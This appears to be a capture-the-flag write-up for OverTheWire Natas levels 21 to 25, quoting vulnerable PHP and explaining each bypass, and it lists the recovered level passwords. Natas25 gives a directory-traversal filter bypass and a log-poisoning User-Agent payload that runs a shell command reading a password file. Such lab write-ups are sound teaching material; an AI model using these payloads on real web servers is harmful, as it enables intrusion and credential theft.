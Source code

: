 # Natas21
```php 
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
```
## In the experimenter page
```php
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```
If you wanna trigger print_credentials(), you have to have a pair of value admin:1, so in the experimenter page you can post some data,and it'll sotre in your session,you can either use burp or postname to post the request,then get the origin page with the same session id.
flag:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
# Natas22
```php
 if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
```
Because of we don't have the admin session so the code will add a location header which will redirect you to  http://natas22.natas.labs.overthewire.org/ ,we can use burp to view the http history.<br>
flag:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
# Natas23
```php
if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
```
In this level it requires a passwd longer than 10 characters and it have to  satisfied [strstr()](https://www.php.net/manual/en/function.strstr.php) funcion, it could be solved by padding some number or letter.<br>
flag:OsRmXFguozKpTZZ5X14zNO43379LZveg
# Natas24
```php 
 if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
```
In this code , the only entry point is the strcmp(), you can find the vulnerability in the [manual page](https://www.php.net/manual/zh/function.strcmp.php).
flag:GHF6X7YwACaYYssHVY05cFq83hRktl4c
# Natas25
```php
function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
```
In the safeinclude function, it try to prevent directory traversal, but we can still overpass it by this payload.
```
    ....//
    ../ #after being filter
```
But in this case we cannot request natas_webpass, because it got filtered.
 ```php
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
 ```
In the logRequest function first we notice is that we can view the log file by using the payload above, we already know where it was located at.
```
http://natas25.natas.labs.overthewire.org/?lang=....//logs/natas25_your_phpsession_id.log
```
And we also see the code record our user-agent header to the log file.So  it could be solved by adding some payload to our user-agent header.
```
payload = <? $a = exec('cat /etc/natas_webpass/natas26'); echo $a; ?>
```
flag:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T 
    
 

